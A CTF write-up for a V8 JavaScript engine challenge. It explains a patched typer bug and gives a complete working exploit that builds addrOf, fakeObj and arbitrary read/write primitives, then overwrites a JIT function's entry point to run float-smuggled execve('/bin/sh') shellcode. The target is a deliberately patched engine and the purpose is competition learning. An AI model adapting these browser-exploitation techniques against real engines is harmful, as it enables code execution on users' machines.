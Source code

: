 # vroom vroom

Disclaimer:
I did not solve this challenge during the CTF.
While I was able to identify and trigger the vulnerability, I was not able to turn this vulnerability into an out-of-bounds access without hitting SIGTRAPs as I was using older V8 exploitation techniques.
linz04 and \_icecreamman on the DownUnderCTF Discord were very helpful in helping me understand the changes to the typer and how to bypass them, as well as sradley's solution script.
In this writeup, the JIT-sprayed shellcode and trigger for the vulnerability are those from sradley's solution (https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/return-to-monke/solve/exploit.js).

## Challenge

The Chromium "V8" JavaScript engine, with a patch that:
- changes the type of a 64-bit float result from a WASM function from a Number to a PlainNumber
- removes a Turbo typer hardening bounds check from the `Array.at` method

## Solution

Unlike a Number, a PlainNumber cannot be a NaN.
The patch will cause the typer to believe that the result of a WASM function that returns a float can never be NaN and will optimize the JITed function based on this assumption.
If we can convince the typer that an index will always be in-bounds of an array, we can bypass this bounds check.
We have to use the `Array.at` method for our out-of-bounds accesses, as the patch also removes an additional bounds check from this method.

Using this out-of-bounds access, we can create addrOf and fakeObj primitives.
We can also leak the map of an object.

Using these primitives and the leaked map, we can create a fake object with a controlled properties pointer.
By changing the value of this properties pointer, we can read and write to arbitrary addresses on the JSHeap.

Using this arbitrary read and write, we can change the entrypoint of a JITed function to point at our shellcode, which is smuggled in as floats.

By calling this function, we can execute our shellcode and spawn a shell.

## Exploit

```js
const buffer = new ArrayBuffer(8);
const floatarray = new Float64Array(buffer);
const biguint64array = new BigUint64Array(buffer);

function ftoi(x) {
	floatarray[0] = x;
	return biguint64array[0];
}

function itof(x) {
	biguint64array[0] = x;
	return floatarray[0];
}

// execve("/bin/sh", 0, 0);
// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
function jit_shellcode() {
	return [
		1.9711828979523134e-246,
		1.9562205631094693e-246,
		1.9557819155246427e-246,
		1.9711824228871598e-246,
		1.971182639857203e-246,
		1.9711829003383248e-246,
		1.9895153920223886e-246,
		1.971182898881177e-246
	];
}

/*
double a(double x) {
	return x;
}
*/
wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,134,128,128,128,0,1,96,1,124,1,124,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,142,128,128,128,0,2,6,109,101,109,111,114,121,2,0,1,97,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,32,0,11]);
wasmModule = new WebAssembly.Module(wasmCode);
wasmInstance = new WebAssembly.Instance(wasmModule);
wasm = wasmInstance.exports.a;

function jit_leakMap(n) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [1.1, 1.2];
	let b = {}; 
	b.a = 2.1;

	return [ftoi(a.at(i*4)), a, b];
}

function jit_addrOf(n, x) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [1.1, 1.2];
	const b = [{}, x]; 

	return [(ftoi(a.at(i*9)) & 0xfffffffen), a, b];
}

function jit_fakeObj(n, x) {
	let i = wasm(n);

	// https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/pwn/vroom-vroom/solve/exp.js
	i = Math.sign(i);   // Static type: Range(-1, 1), Actual: NaN
	i >>= 30;           // Static type: Range(-1, 0), Actual: -2
	i += 1;             // Static type: Range(0, 1),  Actual: -1
	i = -i;             // Static type: Range(-1, 0), Actual: 1
	i = Math.max(i, 0); // Static type: Range(0, 0),  Actual: 1

	const a = [{}, {}];
	const b = [1.1, itof(x | 0x1n)]; 

	return [a.at(i*10), a, b];
}

for (let i=0; i < 1000000; i++) {
	jit_shellcode();
	jit_leakMap(NaN);
	jit_addrOf(NaN, {});
	jit_fakeObj(NaN, 1n);
}

function leakMap() {
	return jit_leakMap(NaN)[0];
}

function addrOf(x) {
	return jit_addrOf(NaN, x)[0];
}

function fakeObj(x) {
	return jit_fakeObj(NaN, x)[0];
}

map = leakMap();
console.log("map leak: ", map.toString(16));

test = {a:13.37};
test_addr = addrOf(test);
console.log("test addr: ", test_addr.toString(16));

test_fake = fakeObj(test_addr);
console.log("test fake === test: ", test_fake === test);

arr = [
	itof(map),
	1.1,
];

arr_addr = addrOf(arr);
console.log("arr addr: ", arr_addr.toString(16));

fake = fakeObj(arr_addr + 0x20n);

function arb_read(addr) {
	arr[1] = itof(((addr - 0x4n) | 0x1n) << 32n);
	return ftoi(fake.a);
}

function arb_write(addr, value) {
	arr[1] = itof(((addr - 0x4n) | 0x1n) << 32n);
	fake.a = itof(value);
}

console.log("read test: ", itof(arb_read(test_addr + 0x30n)));

arb_write(test_addr + 0x30n, 0x4094e40000000000n);
console.log("write test: ", test.a);

code = arb_read(addrOf(jit_shellcode) + 0x18n) & 0xfffffffen;
console.log("code addr: ", code.toString(16));

entry = arb_read(code + 0x10n);
console.log("entry: ", entry.toString(16));

arb_write(code + 0x10n, entry + 0x56n);

jit_shellcode();
```

## Flag

```
DUCTF{BuT_wHy_i5_v8_CaR_tH3mED_tH0Ugh_abf86c295245c2523c51384afd345741}
```
